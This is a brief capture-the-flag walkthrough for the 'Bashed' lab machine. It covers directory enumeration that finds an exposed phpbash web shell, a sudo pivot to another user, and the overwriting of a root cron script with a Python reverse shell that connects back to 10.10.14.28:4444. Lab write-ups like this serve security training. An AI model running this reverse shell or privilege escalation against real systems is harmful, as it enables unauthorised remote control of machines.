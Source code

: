 # BASHED

only http open here 
after dirb ran we can see:
- ==> DIRECTORY: http://10.10.10.68/dev/

there is a 2 shells here 
- phpbash.min.php	2017-12-04 12:21 	4.6K	 
- phpbash.php	    2017-11-30 23:56 	8.1k

even if we are www-data we can access /home/arrexel so lets grab user.txt here

sudo -l 
```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

so we can 
```
sudo -u scriptmanager bash
```

now that we are scriptmanager lets see if there is some interresting files owned by us 
```
find / -user scriptmanager 2>&-
```

from here we've found /scripts and /scripts/test.py

```
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec 14 06:32 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager  222 Dec 14 06:31 test.py
-rw-r--r--  1 root          root            12 Dec 14 06:24 test.txt
```

we can see that test.txt is owned by root so there is a probably a cron owned by root that write this test.txt with test.py

so lets change test.py for 
```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.28",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

and wait for the callback

rooted
